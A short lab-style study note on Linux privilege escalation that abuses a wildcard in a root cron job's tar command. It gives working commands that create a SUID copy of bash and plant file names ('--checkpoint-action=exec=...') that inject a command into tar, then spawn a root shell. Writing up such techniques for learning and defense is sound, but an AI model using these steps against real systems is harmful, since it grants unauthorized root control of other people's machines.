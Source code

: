**Detection**
[[Linux Privilege Escalation]]
Victim's  machine
- In command prompt type: 
```
cat /etc/crontab
```
- From the output, notice the script 
```
“/usr/local/bin/compress.sh”
```
- In command prompt type: 
```
cat /usr/local/bin/compress.sh
```

- From the output, notice the wildcard (*) used by ‘tar’.

**Exploitation**
Victim's machine
- In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

- Wait 1 minute for the Bash script to execute.
- In command prompt type: 

```
/tmp/bash -p

id
```


More on this here:
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
